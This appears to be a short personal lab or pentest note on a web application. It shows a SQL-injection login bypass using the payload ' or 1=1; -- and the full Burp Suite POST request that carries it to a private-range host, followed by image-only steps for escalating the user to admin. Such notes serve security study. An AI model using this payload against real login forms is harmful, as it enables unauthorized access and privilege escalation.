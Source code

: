 
![[Pasted image 20231108091949.png]]


# Login SQL-Injection  as User (Role: Customer)

## Browser
Username: egal
Password: ``` ' or 1=1; --  ```

## Burp Suite

```
POST /routers/router.php HTTP/1.1
Host: 10.0.68.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://10.0.68.105
Connection: close
Referer: http://10.0.68.105/login.php
Cookie: PHPSESSID=ldhu662ju9tu9ke4a00isemnfj
Upgrade-Insecure-Requests: 1

username=test&password=%27+or+1%3D1%3B+--+
```

![[Pasted image 20231210165948.png]]

## Change rolle of Current User to Admin

![[Pasted image 20231210171514.png]]

## relogin (as admin)

![[Pasted image 20231210171600.png]]